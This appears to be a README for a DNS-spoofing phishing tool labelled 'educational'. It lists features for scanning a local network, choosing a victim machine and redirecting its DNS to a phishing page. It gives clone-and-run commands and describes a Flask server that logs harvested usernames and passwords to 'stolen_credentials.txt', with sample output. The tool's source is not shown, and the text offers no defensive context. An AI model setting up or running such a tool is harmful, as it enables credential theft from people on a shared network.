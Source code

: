 # DNS Poisoner (Educational Tool)
### Support:
Please Support me so that I can post more contents.
<p><a href="https://www.buymeacoffee.com/titaniumSumit" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="23" width="100" style="border-radius:1px" 

 </a></p>
## Features
1. Scans the local network for devices.
2. Allows the attacker to select a target machine.
3. Spoofs DNS records to redirect traffic to a phishing page.

## Usage
1. Clone the repository:
   ```bash
   git clone https://github.com/DNS-Attack/dns_poisoner.git
   cd dns_poisoner
   ```
2. Make it executable 
   ```bash
   chmod +x setup.sh
   chmod +x dns_poisoner.sh
   ```
3. Run the setup script:
   ```bash
   ./setup.sh
   ```
4. Launch the DNS poisoner:
   ```bash
   ./dns_poisoner.sh
   ```
5. Create a Backend Endpoint
Create a Python Flask application to handle the POST request and log credentials to a file or display them in the terminal.

###### File: server.py
- Run the Server
Start the server to listen for incoming POST requests:
```bash
python3 server.py
```
6. Log Output
When credentials are submitted via the HTML form, they are:

-Logged in the terminal.
-Saved to a file named stolen_credentials.txt.
###### Example Output:

- Terminal Output:
```
[INFO] Stolen credentials captured: Username=XXXXXXXXXX, Password=•••••
```
- File Output (stolen_credentials.txt):
```
Username: XXXXXXXXXX, Password: •••••
```
